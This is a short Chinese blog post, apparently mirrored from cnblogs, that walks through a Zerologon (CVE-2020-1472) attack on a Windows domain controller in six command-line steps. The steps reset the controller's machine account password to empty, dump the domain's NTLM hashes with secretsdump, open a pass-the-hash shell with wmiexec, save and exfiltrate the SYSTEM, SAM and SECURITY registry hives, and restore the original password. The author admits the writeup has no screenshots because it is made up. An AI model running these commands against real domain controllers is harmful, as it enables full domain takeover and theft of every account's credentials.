




# CVE-2020-1472-zerologon - mrhonest - 博客园

> 原文：[`www.cnblogs.com/mrhonest/p/14306445.html`](https://www.cnblogs.com/mrhonest/p/14306445.html)

全程无图--因为是我编的

*   域控 : windows 2008 R2 192.168.1.105 mrhonest.com

# 第一步,将域控机器帐号密码设置为"空"

`python3 cve-2020-1472-exploit.py -n dc -t 192.168.1.105`


# 第二步,使用"空"密码 dump 域内帐号的 ntlm hash

`python3 secretsdump.py -no-pass -just-dc dc\$@192.168.1.105`


# 第三步,获取域控 shell 和 导出域控计算机帐户的原始 NT 哈希,为了恢复域控机器帐号的密码

`python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8e4fcbdb45dd4b00370003f066535a64 mrhonest.com/administrator@192.168.1.105`


# 第四步,导出注册表文件

```
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save

get system.save
get sam.save
get security.save

del /f system.save
del /f sam.save
del /f security.save 
```

# 第五步,本地获取域控计算机帐户的原始 NT 哈希

`python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL`


# 第六步,恢复域控机器帐号密码

`python3 reinstall_original_pw.py dc 192.168.1.105 $MACHINE.ACC:plain_password_hex 的值`


*   参考:
    [`www.t00ls.net/thread-57866-1-1.html`](https://www.t00ls.net/thread-57866-1-1.html)